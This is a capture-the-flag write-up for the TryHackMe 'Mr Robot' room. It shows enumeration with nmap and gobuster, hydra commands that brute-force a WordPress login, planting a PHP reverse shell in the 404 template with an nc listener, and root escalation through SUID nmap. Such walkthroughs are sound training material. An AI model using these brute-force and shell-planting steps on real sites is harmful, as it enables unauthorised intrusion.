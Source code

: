 # ====================

# Mr Robot CTF WRITE-UP

[https://tryhackme.com/room/lookup](https://tryhackme.com/room/mrrobot)

# ====================

![](Images/1.jpeg)

# 1. Enumeration

Add `Machine_IP robot.thm` to /etc/hosts file.

```shell
sudo vim /etc/hosts
```

We will use ***NMAP*** to enumerate open ports on the target machine (we can also use ***Rustscan***).

```shell
sudo nmap -sS -T4 -vv -p- robot.thm
```

We get two open ports: `HHTP` and `HTTPs` and one closed port `SSH`. So we won't be able to log in via SSH even if we get some credentials.

![](Images/2.png)

Now we will check for port version, common scripts and OS information:

```shell
sudo nmap -sV -sC -O -T4 -vv -p 22,80,443 robot.thm
```

![](Images/3.png)

Nothing much interesting here, it is Linux OS. So let's enumerate folder structure on web server with GoBuster:

```shell
gobuster dir -u http://robot.thm -w /usr/share/wordlists/dirb/common.txt -t 60
```

We get some interesting information here. First, we can see that there is **robot.txt** file which we should check and we can obviously see that this is a WordPress site because of the `/wp-*` folders:

![](Images/4.png)

First we will check for **robots.txt** file and we can see some interesting files:

![](Images/5.png)

File **key-1-of-3** is the answer to the first question:

```
curl http://robot.thm/key-1-of-3.txt
```

But file **fsocity.dic** seems like some kind of wordlist... Let's save it to our attack machine...

```
curl http://robot.thm/fsocity.dic -o fsocity.dic
```

When we check for number of lines of this file, we get almost a million lines...

```
wc -l fsocity.dic
```

If we check the file, we can see there is a lot of duplicates, so we can make the wordlist smaller by removing all these duplicates...

```
cat fsocity.dic | sort | uniq > fsocity2.dic
```

Now we have around 11 000 lines, which is much better... Let's try to log in to the site via `http://robot.thm/wp-login.php`.

We get a log in form and if we enter some random credentials, we get an **error message**:

![](Images/6.png)

Let's try to enumerate the usernames with **hydra** using the wordlist `fsocity2.dic`. Intercept the request with BURP to get the POST data:

![](Images/7.png)

```
hydra -L fsocity2.dic -p x robot.thm -vV http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Frobot.thm%2Fwp-admin%2F&testcookie=1:Invalid username." -t 64 -f
```

We got the username... Of course... It's **elliot**! :D

![](Images/8.png)

Now let's back to log in page, enter **elliot** as username and random password. We get different error message!

![](Images/9.png)

Let try to brute force the password for user **elliot** using the same wordlist `fsocity2.dic`:

```
hydra -l elliot -P fsocity2.dic robot.thm -vV http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Frobot.thm%2Fwp-admin%2F&testcookie=1:The password" -t 64 -f
```

And YES!!! We got the password!!! :)

![](Images/10.png)

Use the credentials to log in to the WordPress site and we are in:

![](Images/11.png)

WordPress is based on php, so we need a php reverse shell to get to the system... The easyest way is to find some php page that we can call and execute our payload. We can use `404.php` page which is called when the page can't be found on the server (Appearance -> Editor -> 404 Template).

We can use the famous php reverse shell **pentestmonkey**:

![](Images/12.png)

Unpack it:

```
tar -xzvf file_name.tar.gz
```

Copy the whole content of the .php file and paste it in the 404.php page on the web site. Put the IP of your attacking machine and set PORT to 1234, or whatever you want.

![](Images/13.png)

Start the nc listener on your attacking machine:

```
nc -lvnp 1234
```

Save changes by pressing **Update file** button. Request some page on the server that doesn't exists `http://robot.thn/adfdsf` and YES! We have reverse shell! Stabilize the shell with python method:

![](Images/14.png)

List the content of `/home` directory and you will see **robot** user. When we list that folder we can see there are two files: **key-2-of-3.txt** and **password.raw-md5**. We don't have permissions to read **key** file, but we can read the **password** file. It's MD5 hash of the password, so we have to crack it with **JOHN** or **Hashcat**. It is very slow process on the attack box, so we will use site https://crackstation.net.

![](Images/15.png)

We already saw in the NMAP results that SSH port is closed, so we can't connect via SSH, but we can change user on our existing shell:

![](Images/16.png)

Now, we can `cat` key-2-of-3.txt file and get the second answer:

![](Images/17.png)

At this point we should download **linpeas** on the target machine and check for privilege escalation vectors, but the answer is to check for SUID bit:

```
find / -type f -perm -u=s -ls 2>/dev/null
```

In the results we can see the NMAP which we can check at gtfobins website...

![](Images/18.png)

We can run NMAP in interactive mod and get the shell:

![](Images/19.png)

And YES, we are root!!! :)

![](Images/20.png)

Read the last `key-3-of-3.txt` file from `/root` directory and you get the third answer!

![](Images/21.png)

# =========

# ***Stay safe and see ya in the next write-up!***
